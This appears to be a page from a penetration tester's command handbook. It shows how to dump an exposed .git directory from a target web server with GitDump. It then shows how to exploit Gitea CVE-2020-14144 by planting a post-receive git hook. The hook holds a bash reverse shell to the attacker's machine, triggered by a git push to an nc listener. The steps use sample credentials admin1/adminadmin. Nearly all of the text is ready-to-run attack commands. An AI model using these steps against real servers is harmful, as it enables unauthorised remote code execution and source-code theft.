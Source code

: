 Operators Handbook pg 80
https://pentestbook.six2dez.com/enumeration/webservices/github
```bash - kali
git clone https://github.com/Ebryx/GitDump
```
```bash - kali
cd GitDump
```
```bash - kali
python3 git-dump.py http://$TARGET/.git/
```
```bash - kali
cd output && git checkout -- .
```
```bash - kali
git log
```
#### Gitea
https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/
sign in > Create new repository (shelly) > Settings > Git Hooks > post-receive
```bash - Gitea
#!/bin/bash
bash -i >& /dev/tcp/$KALI/3000 0>&1 &
```
```bash - kali
touch README.md
```
```bash - kali
git init
```
```bash - kali
git add README.md
```
```bash - kali
git commit -m "Initial commit"
```
```bash - kali
git remote add origin http://$TARGET:3000/admin1/shelly.git
```
```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```
```bash - kali
git push -u origin master
```
```bash - kali
admin1
```
```bash - kali
adminadmin
```